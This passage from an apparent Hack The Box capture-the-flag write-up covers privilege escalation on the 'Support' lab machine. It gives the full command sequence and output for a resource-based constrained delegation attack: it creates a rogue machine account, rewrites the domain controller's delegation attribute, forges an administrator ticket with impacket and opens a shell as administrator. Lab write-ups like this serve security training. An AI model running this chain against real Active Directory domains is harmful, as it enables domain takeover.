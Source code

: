 After importing both modules on the victim we can run these commands.

First we create a new machine account with a password. Then we need to grab our new sid.

```*Evil-WinRM* PS C:\temp> New-MachineAccount -MachineAccount rogue -Password $(ConvertTo-SecureString 'pass' -AsPlainText -Force) -Verbose
Verbose: [+] Domain Controller = dc.support.htb
Verbose: [+] Domain = support.htb
Verbose: [+] SAMAccountName = rogue$
Verbose: [+] Distinguished Name = CN=rogue,CN=Computers,DC=support,DC=htb
[+] Machine account rogue added
*Evil-WinRM* PS C:\temp> Get-DomainComputer rogue -Properties objectsid

objectsid
---------
S-1-5-21-1677581083-3380853377-188903654-5603


*Evil-WinRM* PS C:\temp> 
```

With our sid in hand add it into the next command string to create a new raw security descriptor. Then we set the new bytes to the dc. 

```console
*Evil-WinRM* PS C:\temp> $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-1677581083-3380853377-188903654-5603)"
*Evil-WinRM* PS C:\temp> $SDBytes = New-Object byte[] ($SD.BinaryLength)
*Evil-WinRM* PS C:\temp> $SD.GetBinaryForm($SDBytes, 0)
*Evil-WinRM* PS C:\temp> Get-DomainComputer dc | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```
On our host: by inputting the following command we can create a new ticket and impersonate the administrator.

```
└──╼ [★]$ impacket-getST support.htb/rogue:pass -dc-ip 10.129.53.172 -impersonate administrator -spn www/dc.support.htb
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for user
[*] Impersonating administrator
[*] 	Requesting S4U2self
[*] 	Requesting S4U2Proxy
[*] Saving ticket in administrator.ccache
```
Export the ticket and login as the admin account and we are in!

```
└──╼ [★]$ export KRB5CCNAME=administrator.ccache
─[us-dedivip-1]─[10.10.14.35]─[htb-0xrogue@pwnbox-base]─[~/my_data/HTB/Machines]
└──╼ [★]$ impacket-wmiexec support.htb/administrator@dc.support.htb -no-pass -k
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
support\administrator
```
Navigate and cat the flag!
